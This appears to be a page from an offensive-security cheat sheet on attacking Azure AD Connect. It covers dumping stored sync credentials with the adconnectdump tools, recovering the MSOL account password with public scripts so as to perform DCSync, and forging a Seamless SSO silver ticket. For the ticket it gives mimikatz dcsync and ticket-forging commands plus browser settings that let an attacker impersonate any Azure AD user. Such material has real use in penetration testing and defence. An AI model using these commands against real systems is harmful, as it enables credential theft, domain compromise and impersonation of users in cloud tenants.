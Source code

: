 ## Azure AD Connect - Password extraction

Credentials in AD Sync : C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf

Tool | Requires code execution on target | DLL dependencies | Requires MSSQL locally | Requires python locally
--- | --- | --- | --- | ---
ADSyncDecrypt | Yes | Yes | No | No
ADSyncGather | Yes | No | No | Yes
ADSyncQuery | No (network RPC calls only) | No | Yes | Yes


```powershell
git clone https://github.com/fox-it/adconnectdump
# DCSync with AD Sync account
```

## Azure AD Connect - MSOL Account's password and DCSync

You can perform **DCSync** attack using the MSOL account.

Prerequisite:
  * Compromise a server with Azure AD Connect service
  * Access to ADSyncAdmins or local Administrators groups

Use the script **azuread_decrypt_msol.ps1** from @xpn to recover the decrypted password for the MSOL account:
* `azuread_decrypt_msol.ps1`: AD Connect Sync Credential Extract POC https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545
* `azuread_decrypt_msol_v2.ps1`: Updated method of dumping the MSOL service account (which allows a DCSync) used by Azure AD Connect Sync https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c

Now you can use the retrieved credentials for the MSOL Account to launch a DCSync attack.

## Azure AD Connect - Seamless Single Sign On Silver Ticket

> Anyone who can edit properties of the AZUREADSSOACCS$ account can impersonate any user in Azure AD using Kerberos (if no MFA)

:warning: The password of the AZUREADSSOACC account never changes.

Using [https://autologon.microsoftazuread-sso.com/](https://autologon.microsoftazuread-sso.com/) to convert Kerberos tickets to SAML and JWT for Office 365 & Azure

1. NTLM password hash of the AZUREADSSOACC account, e.g. `f9969e088b2c13d93833d0ce436c76dd`. 
    ```powershell
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```
2. AAD logon name of the user we want to impersonate, e.g. `elrond@contoso.com`. This is typically either his userPrincipalName or mail attribute from the on-prem AD.
3. SID of the user we want to impersonate, e.g. `S-1-5-21-2121516926-2695913149-3163778339-1234`.
4. Create the Silver Ticket and inject it into Kerberos cache:
    ```powershell
    mimikatz.exe "kerberos::golden /user:elrond
    /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
    /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
    /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```
5. Launch Mozilla Firefox
6. Go to about:config and set the `network.negotiate-auth.trusted-uris preference` to value `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
7. Navigate to any web application that is integrated with our AAD domain. Fill in the user name, while leaving the password field empty.
